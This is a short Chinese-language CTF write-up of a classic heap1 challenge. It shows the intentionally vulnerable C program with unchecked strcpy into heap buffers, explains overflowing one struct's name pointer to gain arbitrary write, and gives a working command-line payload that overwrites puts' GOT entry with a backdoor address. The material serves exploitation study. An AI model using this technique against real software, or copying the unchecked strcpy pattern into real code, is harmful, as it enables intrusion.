 ```c

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

gdb：

![image-20220401172730579](Nightmare Heap.assets/image-20220401172730579.png)

深入查看：

![image-20220401172807750](Nightmare Heap.assets/image-20220401172807750.png)

这是一件很有趣的事。

两个结构体，大小无所谓。

没有开启pie，所以堆区的地址也是固定的。

每一个结构体，使用了两次malloc。所以最后其实是四次malloc。这也正是我在heap看到的：

显然我们看到了这四个chunk的地址。然后我们就可以利用堆溢出了。

本题的关键是：

第一次输入，修改第二次输入的地址，这样我们就可以在第二次在任意位置写入我们想要写入的内容。

第二次输入，我们就实现任意写了。

所以劫持puts的got表，因为在实现任意写后它还会执行一次。

第一次输入：

0x20+puts的got地址

第二次输入：

后门函数的地址

执行指令：

```bash
./heap1 python -c 'print "0"*20 + "\x18\xa0\x04\x08" + " " + "\xb6\x84\x04\x08"'
```
